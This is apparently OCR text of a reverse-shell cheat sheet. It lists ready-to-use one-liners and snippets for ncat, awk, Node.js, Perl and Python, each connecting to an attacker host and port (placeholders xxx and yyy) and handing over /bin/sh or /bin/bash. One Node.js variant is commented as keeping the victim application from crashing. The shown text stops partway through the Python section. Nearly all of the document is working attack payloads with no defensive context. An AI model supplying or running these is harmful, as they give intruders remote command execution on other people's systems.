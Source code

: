 ```
╚═══════════════════════════════════════════════════
╔NCAT═══════════════════════════════════════════════
║ ncat xxx yyy -e /bin/bash
╠═══════════════════════════════════════════════════
║ ncat --udp xxx yyy -e /bin/bash
╚═══════════════════════════════════════════════════

╔AWK════════════════════════════════════════════════
║ awk 'BEGIN {s = "/inet/tcp/0/xxx/yyy"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
╚═══════════════════════════════════════════════════

╔NODEJS═════════════════════════════════════════════
║(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(yyy, "xxx", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
╠═══════════════════════════════════════════════════
║ require('child_process').exec('nc -e /bin/sh xxx yyy')
╠═══════════════════════════════════════════════════
║var x = global.process.mainModule.require
x('child_process').exec('nc xxx yyy -e /bin/bash')
╚═══════════════════════════════════════════════════

╔PERL═══════════════════════════════════════════════
║ perl -e 'use Socket;$i="xxx";$p=yyy;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
╠═══════════════════════════════════════════════════
║ perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"xxx:yyy");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
╠═══════════════════════════════════════════════════
║ perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"xxx:yyy");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
╚═══════════════════════════════════════════════════

╔PYTHON═════════════════════════════════════════════
║ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xxx",yyy));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
╠═══════════════════════════════════════════════════
║ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xxx",yyy));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
╠══════════════╦════════════════════════════════════
```